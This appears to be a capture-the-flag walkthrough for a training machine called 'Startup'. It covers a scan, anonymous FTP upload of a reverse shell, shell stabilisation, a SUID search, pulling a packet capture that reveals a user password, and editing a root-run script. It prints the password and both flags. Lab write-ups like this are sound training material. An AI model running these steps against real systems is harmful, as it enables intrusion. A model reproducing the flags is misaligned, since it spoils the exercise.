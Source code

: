# Startup

* IP = 10.10.16.78

## Questions/Tasks:

### Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* Hmmm 🤔 FTP is running and allows *Anonymous* login
* Let's try that first..
* Directory listing:
![Screenshot](./ftp.png)
* Get notice.txt, important.jpg and .test.log from the ftp server
* .test.log seems to be useless
* Contents of notice.txt:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
* Note the name **Maya**
* important.jpg looks like this:
![Picture](./important.png)
* Only thing we get in the webpage:
![Screenshot](./http.png)
* Lets check gobuster for any other directories:

### GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)

```
* Inside /files we have:(looks like the same directory as FTP)
![Screenshot](./http2.png)
* So, we can upload a reverse shell over FTP and return back at the webpage at /files!!
![Screenshot](./ftp2.png)
![Screenshot](./1.png)
![Screenshot](./2.png)

* Stabilize the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
Ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* Finding the files:
```bash
find / -name *.txt 2>/dev/null
```
![Screenshot](./3.png)
* Aww!! 🥰 ❤️

1. What is the secret spicy soup recipe?<br>

**Ans-love**

* Some folders that doesn't belong to root, that are present:
```bash
drwxr-xr-x   2 root     root      4096 Nov 12  2020 vagrant
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
```
* *Vagrant* folder seems empty
* But the incidents folder has contents:
```bash
www-data@startup:/incidents$ ls -la
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Jun 29 04:13 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```
* Lets get that file to local machine and analyze with **Wireshark**
* Remote machine:
```
python3 -m http.server
```
* Local machine:
```
wget http://10.10.16.78:8000/suspicious.pcapng -O suspicious.pcapng
```
* Follow the TCP stream to get the password:
![Screenshot](./4.png)
![Screenshot](./5.png)
* So it turns out **c4ntg3t3n0ughsp1c3** is password for *lennie*
* Navigate to lennie's home directory and get the user flag.
* Hence *Maya* wasn't a valid name and notice.txt & important.jpg were also some distraction stuff!!😮‍💨😮‍💨

2. Contents of user.txt<br>

**Ans-THM{03ce3d619b80ccbfb3b7fc81e46c0e79}**

* There doesn't seem much inside ~/Documents:
```bash
lennie@startup:~$ cd Documents/
lennie@startup:~/Documents$ ls -la
total 20
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
-rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
-rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
lennie@startup:~/Documents$ cat concern.txt
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
lennie@startup:~/Documents$ cat list.txt
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
lennie@startup:~/Documents$ cat note.txt
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
lennie@startup:~/Documents$
```
* **sudo -l** doesn't work cause we dont know the root password
* **find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null**
* Also doesn't find anything interesting setuid binary to exploit
* Strange files in scripts directory:
![Screenshot](./6.png)
* Lets modify the */etc/print.sh* script:
```
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$
```
* Modify like this:
![Screenshot](./7.png)
![Screenshot](./8.png)
* Let it run
* Navigate to /root and get the flag...

3. Contents of root.txt<br>

**Ans-THM{f963aaa6a430f210222158ae15c3d76d}**
